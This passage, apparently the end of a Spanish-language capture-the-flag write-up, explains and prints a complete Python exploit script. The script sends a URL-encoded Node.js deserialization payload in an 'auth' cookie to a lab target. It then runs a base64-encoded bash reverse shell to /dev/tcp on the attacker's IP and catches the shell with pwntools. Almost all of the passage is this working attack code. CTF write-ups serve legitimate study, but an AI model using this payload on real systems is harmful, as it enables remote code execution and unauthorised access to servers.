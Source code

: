 Finalmente, en el main:
```python
    threading.Thread(target=unserialize_attack, args=()).start()
    shell = listen(1234,timeout=10).wait_for_connection()
    shell.interactive()
```

Tenemos la llamada a la función **unserialize_attack** mientras estamos escuchando por el puerto 1234 la conexión.


El código completo es el siguiente:

```python
import requests,sys,base64
from pwn import *
from os import system

def def_handler(sig, frame):
    print("\n\n[!] saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) < 2:
    print(f'[!] Uso: python3 {sys.argv[0]} "Tu IP"\n' )
    sys.exit(1)

Host_ip = sys.argv[1]
Target_ip = 'http://10.10.11.139:5000'
s = requests.Session()


def encode_all(string):
    return "".join("%{0:0>2}".format(format(ord(char), "x")) for char in string)

def unserialize_attack():

    reverse = f'bash -i >& /dev/tcp/{Host_ip}/1234 0>&1'
    reverse_bytes = reverse.encode("ascii")
    base64_bytes = base64.b64encode(reverse_bytes)
    reversebase64 = base64_bytes.decode("ascii")

    payload= encode_all("""{"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('echo %s| base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}""" % reversebase64)
    cookie = f'auth ={payload}' 
    headers = {
    "Cookie": cookie
    }   
    r = s.get(Target_ip,headers=headers)

if __name__ == '__main__':
    
    threading.Thread(target=unserialize_attack, args=()).start()
    shell = listen(1234,timeout=10).wait_for_connection()
    shell.interactive()
```
